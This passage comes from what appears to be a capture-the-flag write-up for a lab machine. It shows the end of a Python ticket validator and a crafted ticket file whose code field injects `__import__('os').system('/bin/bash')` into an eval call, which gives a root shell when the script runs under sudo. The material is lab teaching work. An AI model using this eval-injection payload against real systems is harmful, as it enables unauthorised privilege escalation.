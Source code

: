 ```py
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

We have to reverse engineer the ticket validation in order to get our payload into the eval method inside the evaluate function. The resulting ticket file is:

```
development@bountyhunter:~$ cat ticket.md 
# Skytrain Inc
## Ticket to FILLER
__Ticket Code:__
**116+(True and __import__('os').system('/bin/bash'))

development@bountyhunter:~$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
Please enter the path to the ticket file.
ticket.md
Destination: FILLER

root@bountyhunter:/home/development# 
```

The root flag is in /root